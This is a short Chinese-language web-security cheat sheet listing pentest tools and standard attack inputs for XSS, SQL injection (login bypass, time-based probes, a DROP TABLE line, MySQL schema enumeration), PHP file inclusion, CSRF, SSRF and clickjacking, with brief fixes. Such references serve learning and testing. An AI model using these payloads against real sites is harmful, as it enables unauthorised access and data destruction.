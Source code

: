 
## 分析工具:
`burpsuite` 抓包 改包

`nmap ncat` 掃port 測port

`whois` and `theharvester` OSINT

`python` 不用多說

`sqlmap` 不用多說

還有瀏覽器的 `F12(Developer tools)` (超級有用!)
### #別當 script kiddy!!


## 常見漏洞

### XSS(Cross Site Scripting)

#### Attacking Vectors
##### 基本
`<script src = www.example.com/xss.js></script>`
 
 or
 
 `<script>alert(1)</script>`
##### Advanced Vector
`<a id=x tabindex=1 onactivate=alert(1)></a>`

`<body onafterprint=alert(1)>`

`<a id=x tabindex=1 onbeforeactivate=alert(1)></a>`

`<audio src/onerror=alert(1)>`

`<body onpageshow=alert(1)>`

`<body onresize=alert(1)`

and more on [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

#### Fixing
escape html字元

### SQL 注入

#### Attacking Vectors
##### 檢查是否有漏洞
Common vectors like

`'` and `ORDER BY 1`

Blind-Injections to check without debug info

`' AND 1=1 ` (true) `' AND 1=2 ` (false)

Timing attack

`BENCHMARK(878787878787, ('hey', 'you'))`

##### 註解掉後面的query
`DROP TABLE1; --`

or

`DROP TABLE1; #`
##### Login bypass
用 `'` 和 `--` 來閉合引號和註解

##### 萬用密碼
`admin 'or'1'='1`

密碼亂打，bypass

如果檢查sql injection則:

`admin '--`
##### Common Vectors(MySQL for example)
`SELECT user();`

`SELECT user FROM mysql.user;`

`SELECT distinct(db) FROM mysql.db `

`SELECT schema_name FROM information_schema.schemata; (for MySQL >= v5.0)`

`SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’`

##### !No `information_schema` in MySQL < 5!

#### Fixing
預編譯SQL語句

### PHP-Include (上傳漏洞)
PHP 的 include(), require(), include_once(), require_once()可供利用

#### Attacking Vectors
##### file_put_contents寫入
直接

`file_put_contents('path', content')`

##### php偽協議
`data:text/html;ascii, ........`

也可以base64

##### 本地包含(LFI)
透過改包，可以讀取檔案

##### 其他
`../../`上層目錄

用編碼繞防火牆

POST Data 也可以注入payload

### CSRF (Cross-Site-Request-Forgery)
#### Attacking Vectors
將siteB的元素注入到siteA:

`<img src = http://www.siteb.com/blog.php?action=delete></img>`

#### Fixing
檢查referer

captcha

csrf token(保存在server的session裡面，隨機產生)

### SSRF (Server-Side-Request-Forgery)
很像csrf，但是用來訪問內網的server

使用 `php` 偽協議 `RFI` 之類的方式實現


### ClickJacking

插一個透明的frame，直接設定成網頁大小，無論如何使用者都會點擊到frame的內容
